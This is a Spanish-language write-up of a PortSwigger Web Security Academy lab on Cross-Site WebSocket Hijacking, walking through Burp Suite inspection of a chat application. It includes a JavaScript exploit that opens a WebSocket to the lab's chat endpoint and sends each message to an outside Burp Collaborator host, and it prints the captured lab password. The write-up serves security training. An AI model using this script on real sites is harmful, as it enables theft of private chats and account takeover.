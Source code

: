```yaml
---
title: "WebSockets Lab 2"
date: 2025-02-19 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - WebSockets
tags:
  - WebSockets
  - Cross-site WebSocket hijacking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Cross-site WebSocket hijacking

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` este `laboratorio`, debemos `explotar` la funcionalidad de `WebSockets` para realizar un ataque de `Cross-Site WebSocket Hijacking`. Esto nos permitirá `interceptar` el `historial del chat` de la víctima y usar la información obtenida para `comprometer su cuenta`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/WebSockets-Lab-2/image_1.png)

Pulsamos sobre `Live chat` y vemos que hay un `chat` de `IA`. Este tipo de chats suelen ser `LLM's`, un tipo de `modelo de IA` entrenado con grandes volúmenes de texto para procesar y generar lenguaje natural. Estos modelos, como `ChatGPT`, son una subcategoría dentro del `NLP (Natural Language Processing)` y se especializan en tareas como `traducción`, `resumen`, `análisis de texto` y `generación de respuestas`

![](/assets/img/WebSockets-Lab-2/image_2.png)

Si nos `abrimos` el `inspector` de `Chrome` vemos que tenemos una `cookie` asignada

![](/assets/img/WebSockets-Lab-2/image_3.png)

Si accedemos a `Proxy > WebSockets history` podemos ver los `datos enviados` y `recibidos`, en el `primer mensaje` vemos el `handshake`, el `handshake` nos indica que ya estamos listos para poder `enviar mensajes`

![](/assets/img/WebSockets-Lab-2/image_4.png)

El `segundo mensaje` que obtenemos es al `conexión` del `otro usuario`

![](/assets/img/WebSockets-Lab-2/image_5.png)

`Enviamos` un `mensaje`

![](/assets/img/WebSockets-Lab-2/image_6.png)

Si nos vamos a `Burpsuite` podemos `ver` el `mensaje enviado`

![](/assets/img/WebSockets-Lab-2/image_7.png)

Si `inspeccionamos` el `código` vemos que se está usando `wss`, este es un `socket seguro`, el cual funciona sobre `HTTPS` y `cifra` las `comunicaciones` entre `cliente` y `servidor` mediante `TLS/SSL `

![](/assets/img/WebSockets-Lab-2/image_8.png)

Si nosotros `recargamos` la `web` con `F5` podemos ver como se `cargan todos los mensajes nuevamente` y se `restaura` el `chat` al `completo`. Podemos comprobar esto desde `Burpsuite`, `cada vez que recargamos la web se cargan todos los mensajes` y se vuelve a `establecer` la `conexión`

![](/assets/img/WebSockets-Lab-2/image_9.png)

Si `borramos` nuestra `cookie` y `refrescamos` la `página` se nos `asigna` una `nueva cookie` y un `nuevo chat`

![](/assets/img/WebSockets-Lab-2/image_10.png)

![](/assets/img/WebSockets-Lab-2/image_11.png)

Si `sustituimos` la `cookie` por la `anterior`, podemos volver a `recuperar` los `chats`

![](/assets/img/WebSockets-Lab-2/image_12.png)

Una vez validado esto, nos dirigimos a `Burpsuite Collaborator`, `pulsamos` en `Copy to clipboard`, `copiamos` la `dirección url` en el `script` y copiamos el `endpoint` del `chat` también para poder `establecer` una `conexión`. Una vez tenemos el `exploit` listo nos dirigimos al `Exploit server` y lo pegamos

```
<script>
    var ws = new WebSocket('wss://0a3500160349bd8c84a1ab7400a10009.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://efxlbue9fvngrpy1kw48884j3a91xrlg.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Cuando `pulsemos` sobre `Deliver exploit to victim` le `enviaremos` la `url` del `servidor` donde se `aloja` nuestro `exploit` y la víctima hará `click` sobre ella. Cuando eso ocurra, `obtendremos` sus `chats` en nuestro `subdominio` de `Burpsuite Collaborator`, en uno de esos `chats` podemos ver la `contraseña` del usuario `carlos`

![](/assets/img/WebSockets-Lab-2/image_13.png)

Pulsamos sobre `My account` e `iniciamos sesión` con las credenciales `carlos:no5jm5dbv3e89jna369b`

![](/assets/img/WebSockets-Lab-2/image_14.png)

![](/assets/img/WebSockets-Lab-2/image_15.png)
